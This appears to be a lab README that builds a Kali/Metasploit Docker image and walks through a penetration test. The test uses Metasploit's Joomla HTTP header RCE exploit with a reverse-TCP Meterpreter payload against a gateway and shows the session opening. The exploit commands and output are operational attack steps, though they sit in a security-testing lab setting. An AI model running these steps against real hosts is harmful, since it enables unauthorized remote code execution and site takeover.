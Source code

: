 
1. Prepare Kali Linux docker image

    ```bash
    Reference: https://medium.com/@s.on/running-metasploit-on-kali-linux-docker-aws-ec2-instance-a2f7d7310b2b
    # docker pull kalilinux/kali-linux-docker
    # docker run -it kalilinux/kali-linux-docker /bin/bash
    root@944d5319b119:/# apt-get update && apt-get upgrade
    root@944d5319b119:/# apt-get install metasploit-framework
    root@944d5319b119:/# exit
    # docker commit 944d5319b119 metasploit
    # docker images
    ```

    Kali Linux docker with Metasploit installed should be in images list, with image name metasploit.

<a name="penetration"></a>
## Penetration Test

![topo1](https://git.juniper.net/xinleizhao/cSRX/raw/master/topo1.png)

    # docker network create attacker
    # docker run --network attacker -p 4000:4000 -it metasploit /bin/bash
    root@dd2bf0a98f5e:/# service postgresql start
    [ ok ] Starting PostgreSQL 11 database server: main.
    root@dd2bf0a98f5e:/# msfconsole -q
    msf > ip a
    1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1
        link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
        inet 127.0.0.1/8 scope host lo
            valid_lft forever preferred_lft forever
    36: eth0@if37: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default 
        link/ether 02:42:ac:14:00:02 brd ff:ff:ff:ff:ff:ff link-netnsid 0
        inet 172.20.0.2/16 brd 172.20.255.255 scope global eth0
            valid_lft forever preferred_lft forever

    "Try to exploit the 172.20.0.2/16 gateway, which is 172.20.0.1"
    msf > use exploit/multi/http/joomla_http_header_rce
    msf exploit(multi/http/joomla_http_header_rce) > set RHOST 172.20.0.1
    RHOST => 172.20.0.1
    msf exploit(multi/http/joomla_http_header_rce) > set LHOST 172.27.60.147
    LHOST => 172.27.60.147
    msf exploit(multi/http/joomla_http_header_rce) > set LPORT 4000
    LPORT => 4000
    msf exploit(multi/http/joomla_http_header_rce) > set PAYLOAD php/meterpreter/reverse_tcp
    PAYLOAD => php/meterpreter/reverse_tcp
    msf exploit(multi/http/joomla_http_header_rce) > run
    [-] Handler failed to bind to 192.168.189.132:4000:-  -
    [*] Started reverse TCP handler on 0.0.0.0:4000
    [*] 172.20.0.1:80 - Sending payload ...
    [*] Sending stage (38247 bytes) to 172.20.0.1
    [*] Meterpreter session 1 opened (172.20.0.2:4000 -> 172.20.0.1:37852) at 2019-02-20 10:23:37 +0000
    "Then a Metasploit session is opened and user is taking over joomla."
